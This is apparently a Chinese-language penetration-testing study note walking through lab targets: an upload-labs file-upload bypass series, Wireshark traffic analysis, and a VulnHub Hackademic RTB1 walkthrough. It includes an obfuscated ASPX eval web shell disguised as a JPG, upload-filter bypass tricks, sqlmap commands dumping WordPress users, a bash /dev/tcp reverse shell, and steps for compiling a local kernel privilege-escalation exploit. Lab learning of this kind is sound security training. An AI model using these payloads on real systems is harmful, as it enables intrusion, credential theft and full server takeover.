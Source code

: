 ```yaml
---
title: 上传文件与流量分析
---
```


# 上传文件与流量分析

​      January 10, 2024            1573    

## attack虚拟机攻击vul靶机

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)端口

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)扫端口

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)目标端口输入地址下载文件

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)连接sqlserver获取端口密码

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)截取32位，命名文件并修改后缀，上传

12345678.aspx.JPG文件：

<%@PAGE LANGUAGE=JSCRIPT%>
<%var PAY:String=
Request[“\x61\x62\x63\x64”];eval
(PAY,”\x75\x6E\x73\x61”+
“\x66\x65”);%>

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)蚁剑连接数据库取得key2

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)同时获得数据库密码

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)获得key3

## 上传文件

upload靶场

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)上传文件获取地址

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)爆破设置

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)添加前缀为上传文件名，还有hash

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)爆破结果

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)结果

win10系统会忽略后缀的.和空格，liunx不会

在window的时候如果文件名+”::$DATA”会把::$DATA之后的数据当成文件流处理,不会检测后缀名，且保持::$DATA之前的文件名，他的目的就是不检查后缀名

例如:”phpinfo.php::$DATA”Windows会自动去掉末尾的::$DATA变成”phpinfo.php”

12关在抓包后修改存储路径cmd.php%00(%00是丢弃后面的)(复制图像链接后需要删除后面的内容)

13关抓包后修改路径为cmd.php加空格，在hex十六进制中修改这个空格的20为00

14关Jpg格式图片的文件头标识：FFD8开头FFD9结尾
Png格式图片的文件头标识：89 20 4E 47 0D 0A
Gif格式图片的文件头标识：GIF89a GIF87a

copy 123.jpg/b+cmd1.php new.jpg

## 流量分析

wireshark补充内容

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)过滤。目的ip，发送ip，http协议

抓包分析

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)url解码

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)base64解码

## 0.2 vulnhub-Hackademic RTB1靶机

https://www.yuque.com/sunwu-pbywz/baji/unuvgx

靶场下载地址：https://www.vulnhub.com/entry/hackademic-rtb1,17/

arp-scan -l

![根据靶机mac地址查找IP（arp-scan -L）](../img/根据靶机mac地址查找IP（arp-scan -L）.png)

dirsearch -u http://192.168.2.59/Hackademic_RTB1/ -x 403

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)sql注入找回显

1. sqlmap -u http://192.168.2.59/Hackademic_RTB1/?cat=1 –dbms=mysql –batch -D wordpress -T wp_users –dump

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)爆库

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)爆表

bash -i >& /dev/tcp/192.168.2.59/4444 0>&1

nc lvvp 4444

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)shell

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)蚁剑传输

python -c ‘import pty; pty.spawn(“/bin/bash”)’

searchsploit  2.6.3|grep Local

locate 15285.c

cp /usr/share/exploitdb/exploits/linux/local/15285.c ./

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)复制15285.c

cd /tmp

gcc -o exp 15285.c

chmod 777 exp

./exp

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)提权

cat /root/key.txt

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)key